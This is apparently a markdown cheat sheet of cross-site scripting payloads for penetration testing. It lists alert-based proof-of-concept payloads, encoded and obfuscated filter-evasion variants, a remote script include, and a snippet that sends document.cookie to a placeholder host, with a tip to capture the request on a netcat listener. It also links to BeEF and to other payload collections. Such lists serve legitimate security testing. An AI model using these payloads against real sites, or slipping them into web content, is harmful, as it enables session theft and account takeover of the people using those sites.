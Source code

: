 # XSS (CROSS SITE SCRIPTING)

Quick Payloads
--------------
```
<script>alert("XSS")</script>
<script>alert('XSS')</script>
<script>alert(123123)</script>
<script>alert(document.cookie)</script>
<svg onload=alert(1)>
"/><object data="data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5jb29raWUpOzwvc2NyaXB0Pg==
"/><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />
<body background="javascript:alert('running in background');">
<iframe src="javascript:alert('Hello');“/>
<input type=image src="&#74;avascript:alert('Have You')">
<img src='iamnothere.gif' onError=”alert('EventHandler')">
<img src=a onerror=alert(1)>
<frameset onLoad="alert('EventHandler')">
<layer name="extern" src="http://evil.com/test.html">
```

iframe: `<iframe src="http://www.cnn.com" height = "0" width = "0"></iframe>`  

Stealing cookies:  
```
<script>
new Image().src="http://0.0.0.0/bogus.php?output="+document.cookie;
</script>

You can see the browser's request by setting up nc listener on port 80.
```

* [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

[Cheatsheet](http://ha.ckers.org/xss.html)
------------------------------------------

XSS locator:

```javacsript
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```

XSS locator 2:

```
'';!--"<XSS>=&{()}
```

Other:

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC="jav	ascript:alert('XSS');">
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```

XSS and XML
-----------
```
<html:html xmlns:html='http://www.w3.org/1999/xhtml'>
  <html:script>
      alert(document.cookie);
  </html:script>
</html:html>
```

BeEf
----

* [Integrating Metasploit with BeEf](https://www.youtube.com/watch?v=kWvSV1u5sU8)

Misc
----

* [JSFuck](http://www.jsfuck.com/) - Javascript with six characters
* [XSS Payloads](http://www.xss-payloads.com/) - a variety of XSS payloads

Resources
---------

* [Cross-Site Scripting (XSS)](http://phpsecurity.readthedocs.io/en/latest/Cross-Site-Scripting-(XSS).html)
